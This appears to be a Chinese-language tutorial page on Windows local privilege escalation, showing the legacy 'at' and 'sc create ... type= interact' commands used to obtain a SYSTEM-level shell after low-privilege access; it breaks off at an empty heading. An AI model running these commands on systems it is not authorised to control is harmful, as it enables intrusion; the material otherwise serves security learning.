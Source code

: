 ```yaml
---
author: YOUZAI
title: 权限提升
date: 2023/06/20
categories:
 - Windows
tags:
 - 内网安全
---
```


## 系统权限

> system > administrator > users > webshell > guest

## 本地提权

### AT 命令提权

at 命令提权的原理：at 命令是一个计划命令，可以在规定时间完成一些操作，这个命令调用的是 system 权限。

::: tip 适用版本

- [x] Windows2000
- [x] Windows2003
- [x] WindowsXP

:::

当我们拿到一个低权限的用户，通过 3389 端口远程连接上后，可以通过 at 命令来进行本地提权。

```shell
at 12:31 /interactive cmd (在19：39分生成一个交互式的 System 权限的 cmd)
```

![](/images/image20210518104242.png)

### SC 命令提权

SC 是用于与服务控制管理器和服务进行通信的命令行程序。提供的功能类似于“控制面板”中“管理工具”项中的“服务”。

::: tip 适用版本

- [x] Windows 7/8/03/08/12/16

:::

```shell
# 这个命令的意思是创建一个名叫syscmd的新的交互式的cmd服务
sc Create syscmd binPath= "cmd /K start" type= own type= interact
# 然后执行
sc start syscmd  # 就得到了一个system权限的cmd环境
```

### PC 命令提权
